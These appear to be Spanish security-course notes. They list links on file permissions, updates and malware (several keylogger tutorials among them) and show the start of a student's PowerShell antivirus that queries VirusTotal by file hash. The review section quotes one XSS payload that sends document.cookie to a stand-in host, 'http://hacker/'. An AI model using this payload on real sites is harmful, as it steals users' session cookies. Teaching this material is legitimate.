 # Repaso de todo
* https://github.com/jesusninoc/ClasesSAD/blob/master/2020-12-04.md#detectar-xss
* XSS -> "><SCRIPT>var+img=new+Image();img.src="http://hacker/"%20+%20document.cookie;</SCRIPT>

--------------------
--------------------

# Implantación de mecanismos de seguridad activa
- Ataques y contramedidas en sistemas personales:
  - Seguridad en sistemas de ficheros. Acceso a recursos. Listas de control de acceso.
    * https://www.jesusninoc.com/06/09/crear-un-recurso-compartido-y-asignar-permisos-al-recurso/
    * https://www.jesusninoc.com/08/19/anadir-permiso-ntfs-a-una-carpeta/
    * https://www.jesusninoc.com/02/21/permisos-en-linux/
    * https://www.jesusninoc.com/01/19/programacion-de-permisos/
  - Actualización de sistemas y aplicaciones. Autenticidad de aplicaciones y actualizaciones.
    * https://www.jesusninoc.com/07/05/5-gestion-del-software-en-powershell/#Actualizaciones
  - Anatomía de ataques y análisis de software malicioso (malware: virus, gusanos, spyware, keylogers…).
    * https://www.jesusninoc.com/01/23/cifrar-con-un-algoritmo-sencillo-el-nombre-y-el-contenido-de-un-fichero-de-texto/
    * https://www.jesusninoc.com/03/11/keylogger-sencillo-con-powershell/
    * https://github.com/jesusninoc/ClasesSeguridad/blob/master/2019-01-28.md
    * https://github.com/jesusninoc/Seguridad/blob/master/Una%20aproximaci%C3%B3n%20a%20los%20virus%20en%20PowerShell.md
    * https://github.com/jesusninoc/ClasesSeguridad/blob/master/2018-02-19.md#antivirus
    * https://www.jesusninoc.com/07/16/transfer-keylogger-log-file-between-server-and-client-sockets-tcp/
    * http://powershell.com/cs/blogs/tips/archive/2015/12/09/creating-simple-keylogger.aspx
    * https://github.com/vacmf/powershell-scripts/blob/master/powershell-keylogger.ps1
    * https://www.jesusninoc.com/04/30/enviar-datos-a-un-formulario-de-google-docs-desde-powershell-deducir-los-parametros-que-se-envian-por-post/
    * https://github.com/jesusninoc/ClasesSeguridad/blob/master/2018-02-08.md

--------------

# Antivirus realizado por Miguel (MikeRuSe)
* https://github.com/MikeRuSe/Scripts/tree/master/Antivirus_Proyect

## Código del antivirus
```PowerShell
## Buscar el hash de un archivo en VirusTotal
## Testeado y desarrollado en Windows 8.1 Pro y en Windows 10 Pro
## Registrar la API Key: https://www.virustotal.com/gui/join-us
## Es recomendable cambiar la API de abajo
    $VT_API = "45eb6546356546346454dgfhdfhdfghdgfh977"
## Establecemos el protocolo TLS 1.2
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Function submit-VTHash($VThash)
{
    $VTcuerpo = @{resource = $VThash; apikey = $VT_API}
    $VTresultado = Invoke-RestMethod -Method GET -Uri 'https://www.virustotal.com/vtapi/v2/file/report' -Body $VTcuerpo

    return $vtResultado
}

## Menú personalizado
$Titulo = 'ANTIVIRUS v1.0.4 by www.github.com/MikeRuSe'
Clear-Host
```